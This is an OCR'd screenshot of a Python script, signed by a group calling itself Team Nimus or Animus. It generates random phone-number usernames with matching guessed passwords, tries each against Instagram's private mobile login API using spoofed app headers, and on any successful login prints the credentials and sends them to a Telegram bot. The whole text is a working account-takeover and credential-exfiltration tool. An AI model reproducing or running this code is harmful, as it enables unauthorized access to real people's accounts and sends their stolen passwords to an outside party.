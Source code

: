     user = '0987654321'

    while True:

        us = str(''.join((random.choice(user) for i in range(6))))

        username = '+96560' + us

        password = '60' + us

        #Team Nimus

        url = 'https://i.instagram.com/api/v1/accounts/login/'          

        headers = {'User-Agent': 'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)',  'Accept':'*/*', 

         'Cookie':'missing', 

         'Accept-Encoding':'gzip, deflate', 

         'Accept-Language':'en-US', 

         'X-IG-Capabilities':'3brTvw==', 

         'X-IG-Connection-Type':'WIFI', 

         'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8', 

         'Host':'i.instagram.com'}

        uid = str(uuid4())

        data = {'uuid':uid,  'password':password, 

         'username':username, 

         'device_id':uid, 

         'from_reg':'false', 

         '_csrftoken':'missing', 

         'login_attempt_countn':'0'}

        req_login = r.post(url, headers=headers, data=data, allow_redirects=True)

        if 'logged_in_user' in req_login.text:

            zz += 1

            print(G + 'username ==> : ' + username + ': password ==> : ' + password)

            tlg =(f'''https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=𝐍𝐞𝐰 ➥•𝐋𝐨𝐠𝐢𝐧 by Team Animus

❅───────────❅

👤 ➥•𝑬𝒎𝒂𝒊𝒍 : {username}

📟➥•𝑷𝒂𝒔𝒔𝒘𝒐𝒓𝒅 : {password}

❅───────────❅''')

            i = requests.post(tlg)
